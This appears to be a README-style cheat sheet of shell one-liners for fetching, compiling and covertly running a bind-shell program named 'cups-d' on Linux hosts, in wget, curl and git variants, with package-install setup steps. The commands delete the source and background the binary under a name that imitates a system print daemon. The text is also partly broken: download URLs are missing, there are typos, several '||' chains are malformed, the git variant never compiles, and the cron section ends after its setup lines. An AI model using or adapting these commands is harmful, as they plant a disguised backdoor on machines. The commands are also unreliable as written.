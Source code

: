 # One-liners:
## BIND / WGET / GCC
### SETUP(as root):
```console
apt-get install --yes wget gcc binutils || yum -y install wget gcc binutils || zypper -l --no-confirm install wget gcc binutils || pacman --noconfirm -Sy wget gcc binutils
```
### SETUP(via sudo):
```console
sudo apt-get install --yes wget gcc binutils || sudo yum -y install wget gcc bitutils || sudo zypper -l --no-confirm install wget gcc binutils || sudo pacman --noconfirm -Sy wget gcc binutils
```
### RUN(current user):
```console
wget -O bind.c && gcc ./bind.c -o ./cups-d ; rm -f ./bind.c 2>/dev/null || nohup ./cups-d & || disown 2>/dev/null
```
### RUN(via sudo):
```console
wget -O bind.c && gcc ./bind.c -o ./cups-d ; rm -f ./bind.c 2>/dev/null || sudo nohup sudo ./cups-d & || disown 2>/dev/null
```

## BIND / Curl / GCC
### SETUP(as root):
```console
apt-get install --yes curl gcc binutils || yum -y install curl gcc binutils || zypper -l --no-confirm install curl gcc binutils || pacman --noconfirm -Sy curl gcc binutils
```
### SETUP(via sudo):
```console
sudo apt-get install --yes curl gcc binutils || sudo yum -y install curl gcc binutils || sudo zypper -l --no-confirm install curl gcc binutils || sudo pacman --noconfirm -Sy curl gcc binutils
```
### RUN(current user):
```console
curl -o bind.c && gcc ./bind.c -o ./cups-d || rm -f ./bind.c 2>/dev/null || nohup ./cups-d & || disown 2>/dev/null
```
### RUN(via sudo):
```console
curl -o bind.c && gcc ./bind.c -o ./cups-d || rm -f ./bind.c 2>/dev/null || sudo nohup sudo ./cups-d & || disown 2>/dev/null
```
## BIND / Git / GCC
### SETUP(as root):
```console
apt-get install –yes git gcc binutils || yum install git gcc binutils || zypper -l --no-confirm install git gcc binutils || pacman --noconfirm -Sy git gcc binutils
```
### SETUP(via sudo):
```console
sudo apt-get install –yes git gcc binutils || sudo yum install git gcc binutils || sudo zypper -l --no-confirm install git gcc binutils || sudo pacman --noconfirm -Sy git gcc binutils
```
### RUN(current user):
```console
git clone URL && cp ./folder/bind.c ./bind.c || rm -rf ./folder 2>/dev/null || nohup ./cups-d & || disown 2>/dev/null
```
### RUN(via sudo):
```console
git clone URL && cp ./folder/bind.c ./bind.c || rm -rf ./folder 2>/dev/null || sudo nohup sudo ./cups-d & || disown 2>/dev/null
```

## BIND-CRON / WGet / GCC
### SETUP(as root):
```console
apt-get install –yes wget gcc binutils cron
```
### SETUP(via sudo):
```console
sudo apt-get install –yes wget gcc binutils cron
```
